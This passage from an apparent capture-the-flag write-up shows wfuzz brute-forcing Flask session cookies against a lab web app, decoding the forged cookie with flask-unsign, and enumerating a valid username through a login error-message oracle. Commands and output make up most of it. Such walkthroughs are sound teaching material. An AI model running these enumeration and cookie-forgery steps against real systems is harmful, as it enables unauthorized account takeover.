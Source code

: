     
    
    oxdf@hacky$ wfuzz -u http://10.10.11.160:5000/dashboard -H "Cookie: session=FUZZ" -w names_cookies --hc 302
    ********************************************************
    * Wfuzz 2.4.5 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://10.10.11.160:5000/dashboard
    Total requests: 10177
    
    ===================================================================
    ID           Response   Lines    Word     Chars       Payload                                                                                                                                           
    ===================================================================
    
    000001208:   200        82 L     144 W    2444 Ch     "eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YkQbNg.aeOcEqo5Lu6G3McCv1lriOegoOY"                                                             
    
    Total time: 361.2894
    Processed Requests: 10177
    Filtered Requests: 10176
    Requests/sec.: 28.16854
    

It finds one. That one decodes to:

    
    
    oxdf@hacky$ flask-unsign --decode --cookie "eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YkQbNg.aeOcEqo5Lu6G3McCv1lriOegoOY"
    {'logged_in': True, 'username': 'blue'}
    

#### Brute Username Using Login Oracle

I noted during enumeration that the site returned slightly different messages
for an invalid user and invalid credentials for a real user. I can use that to
find a valid username to forge a cookie for.

I’ll use `wfuzz` to send login requests for all the users in the
[SecLists](https://github.com/danielmiessler/SecLists) `names.txt`, and watch
for any that don’t respond “Invalid credentials”. There’s one hit:

    
    
    oxdf@hacky$ wfuzz -u http://10.10.11.160:5000/login -d "username=FUZZ&password=junkpassword" -w /usr/share/seclists/Usernames/Names/names.txt --hs "Invalid credentials"
    ********************************************************
    * Wfuzz 2.4.5 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://10.10.11.160:5000/login
    Total requests: 10177
    
    ===================================================================
    ID           Response   Lines    Word     Chars       Payload
    ===================================================================
    
    000001208:   200        68 L     110 W    2034 Ch     "blue"
    